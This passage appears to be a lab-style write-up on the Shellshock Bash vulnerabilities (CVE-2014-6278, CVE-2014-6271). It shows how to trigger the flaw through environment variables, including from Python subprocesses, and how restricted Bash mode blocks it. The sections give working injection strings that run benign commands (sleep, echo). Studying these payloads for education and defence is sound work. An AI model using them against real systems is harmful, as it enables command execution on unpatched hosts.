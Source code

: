 

### CVE-2014-6278: ``() { _; } >_[$($())] { CMD }``

The interesting thing is that
this doesn't look like a parsing bug but a feature.

I was succeeded to trigger this one in a vulnerable VM from
[PentesterLab](https://pentesterlab.com/exercises/cve-2014-6271)
but I couldn't trigger it in my own lab.

Here is how it should be invoked:

```shell
$ X='() { _; } >_[$($())] { /bin/sleep 5 }' bash -c 'date'      # byexample: +skip

```

## Subshells from Python, Ruby

It is not necessary to run Bash directly to trigger the vuln.

Any process that pass the env variables to a vulnerable Bash is enough:

```shell
$ X='() { :; }; echo "vuln"' python -c 'import os; os.system("ls")'
vuln
<...>

```

Python's ``os.system`` spawns a shell, typically ``/bin/sh`` and runs
inside it the given command.

The trick is that ``/bin/sh`` in some mainstream systems is a link
to ``/bin/bash``, enabling the bug to other interpreters.

Python, Ruby, virtually any software the spawn a subshell is affected.


## Restricted Bash bypass

We cannot trigger the vuln if the shell spawned is in restricted mode

```shell
$ X='() { :;}; /bin/echo vuln' bash -r -c 'echo baz'
baz

```

This is because:

> "A restricted shell [...] (does not allow) importing function definitions
> from the shell environment at startup"
>
> <footer><a href="https://linux.die.net/man/1/bash">bash(1)</a>, <em>Restricted shell</em></footer>
